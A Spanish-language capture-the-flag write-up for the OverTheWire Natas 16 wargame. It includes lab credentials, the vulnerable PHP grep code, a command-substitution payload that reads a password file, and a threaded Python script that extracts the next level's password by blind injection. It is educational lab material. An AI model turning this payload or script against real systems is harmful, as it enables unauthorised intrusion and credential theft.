 # Natas 16

#### URL: http://natas16.natas.labs.overthewire.org/
#### Credenciales: natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo

Como en niveles anteriores se ejecuta el comando grep con la entrada del usuario como parametro, pero esta vez se filtran mas caracteres y el parametro esta entre comillas
``` php
if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

Podemos buscar una llamada a grep con un subcomando y concatenarlo a una palabra existente en el diccionario, por ejemplo:

`$(grep ^algo /etc/natas_webpass/natas17)guilty`

esto busca la coincidencia de la contraseña concatenada con "guilty", por lo que no veremos ninguna palabra valida en la salida, en caso contrario nos devolverá "guilty" como resultado.

EL objetivo es ir obteniendo caracter por caracter de la contraseña con esta técnica, similar al nivel anterior de inyeccion SQL a ciegas. En python puede ser como sigue:

```python
# script.py
# Async version 
import requests
import string
import threading
import base64

book = string.ascii_letters + string.digits
passwd = ""
headers = {'Authorization': f'Basic {base64.b64encode(b"natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo").decode()}'}

def test_char(c):
    global found_char
    payload = f"$(grep ^{passwd + c} /etc/natas_webpass/natas17)guilty"
    x = requests.get(f"http://natas16.natas.labs.overthewire.org/index.php?needle={payload}&submit=Search", headers=headers)
    if "guilty" not in x.text:
        found_char=c

print("Starting attack.")
for i in range(32):
    found_char = None
    threads = []
    for c in book:
        thread = threading.Thread(target=test_char,args=(c,))
        threads.append(thread)
        thread.start()
    for t in threads:
        t.join()
    if found_char:
        passwd+=found_char
        print(f"Found {found_char} at position {i+1}")
    else:
        print("Not character found. Invalid payload.")
        break

print(f"Final password: {passwd}")
```

Ejecutando `python3 script.py` obtenemos



